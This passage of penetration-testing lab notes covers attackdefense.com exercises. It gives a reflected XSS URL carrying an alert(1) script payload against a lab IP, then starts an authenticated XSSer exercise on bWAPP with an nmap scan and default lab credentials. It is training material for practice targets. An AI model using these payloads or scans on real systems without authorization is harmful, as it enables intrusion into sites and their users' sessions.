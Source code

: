 - Open the `Final Attack` link in the browser
  - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=2&user-poll-php-submit-button=Submit+Vote`

![](1-webapp-httpassets/image-20230505002955557.png)

------

## Authenticated XSS Attack - XSSer

> 🔬 [Authenticated XSS Attack with XSSer](https://attackdefense.com/challengedetails?cid=1892)
>
> - Target IP: `192.56.179.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.56.179.2/24

nmap -sS -sV 192.56.179.3
```

- Login with `bug`:`bee`, select the `HTML Injection - Reflected (GET)` bug and input any value. Copy the URL
  - `http://192.56.179.3/htmli_get.php?firstname=hi&lastname=hi&form=submit`

